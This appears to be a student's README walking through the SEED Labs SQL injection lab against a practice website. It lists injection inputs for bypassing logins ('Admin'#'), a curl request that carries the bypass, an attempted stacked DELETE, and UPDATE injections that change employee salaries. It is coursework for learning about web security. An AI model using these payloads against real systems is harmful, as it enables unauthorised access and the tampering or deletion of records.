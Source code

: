 # Seed-Lab-Sql-Injection-Attack
SQL injection attack

|  Name   | Title |
| ------------- | ------------- |
| Asad Ali  | Seed Lab SQL Injection  |

Instruction: https://seedsecuritylabs.org/Labs_16.04/PDF/Web_SQL_Injection.pdf

# Task 1
### Login to MYSQL
```
sudo mysql -u root -pseedubuntu
```
![alt text](https://github.com/Asad-Ali-Code/Seed-Lab-Sql-Injection-Attack/blob/main/mysql%20query.PNG)
### Use Users Database from Databases
```
mysql> use Users;
```
![alt text](https://github.com/Asad-Ali-Code/Seed-Lab-Sql-Injection-Attack/blob/main/use%20users.PNG)
## Showing Tables from Users Database
```
mysql> show Tables;
```
![alt text](https://github.com/Asad-Ali-Code/Seed-Lab-Sql-Injection-Attack/blob/main/show%20table.PNG)
## Select Name="Alice" from Users Database
```
mysql> select * from credential where Name = 'Alice';
```
![alt text](https://github.com/Asad-Ali-Code/Seed-Lab-Sql-Injection-Attack/blob/main/select%20query.PNG)
# Task 2
## Task2.1
- Username ```"Admin'#"```
- Password ```"abc"```
It will result in a SQL query as:
```
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= 'Admin' #' and Password='abc'
```
Then statements after ```#``` will be regarded as comments. So we can log in as ```Admin```.

![alt text](https://github.com/Asad-Ali-Code/Seed-Lab-Sql-Injection-Attack/blob/main/users%20details.PNG)
## Task 2.2
```
curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23Password=xyz'
```
![alt text](https://github.com/Asad-Ali-Code/Seed-Lab-Sql-Injection-Attack/blob/main/curl%20url.PNG)
## Task 2.3

Now we use SQL query to update data using same vulnerability
```
'1=1; DELETE from credential where name='Alice';
```
So 
- USERNAME : ```'1=1; DELETE from credential where name='Alice';```
- PASSWORD : ```""```
 
 As result
 
![alt text](https://github.com/Asad-Ali-Code/Seed-Lab-Sql-Injection-Attack/blob/main/task%202.3%20use%20delete%20query.PNG)

Because in PHP's ```mysqli``` extension, which invokes ```mysqli::query``` API to handle SQL statements, it doesn't support for multiple queries within the same run. Of course, the design of this API attributes to the concern of SQL injection.

# Task 3
It's hard to find the navigation buttons on this website (www.SeedLabSQLInjection.com).
In order to edit the profile, please log in and then jump to the link address: http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php by hand.

## Task 3.1

Log in with Alice's 
- USERNAME : ```"Alice'#"```
- PASSWORD : ```""```

![alt text](https://github.com/Asad-Ali-Code/Seed-Lab-Sql-Injection-Attack/blob/main/alice%20profile.PNG)

 Than enter http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php 
 
 Than Modify Phone Number as ```', Salary=1000000 #``` and save.
 
 ![alt text](https://github.com/Asad-Ali-Code/Seed-Lab-Sql-Injection-Attack/blob/main/modify%20alice%20number.PNG)
 
## Task 3.2

Log in with Boby 
- USERNAME : ```"Boby'#"```
- PASSWORD : ```""```

![alt text](https://github.com/Asad-Ali-Code/Seed-Lab-Sql-Injection-Attack/blob/main/Boby%20profile.PNG)

 Than enter http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php 
 
 Than Modify Phone Number as ```', Salary=0 #``` and save.
 
 ![alt text](https://github.com/Asad-Ali-Code/Seed-Lab-Sql-Injection-Attack/blob/main/salary%20of%20boby%20change.PNG)
 
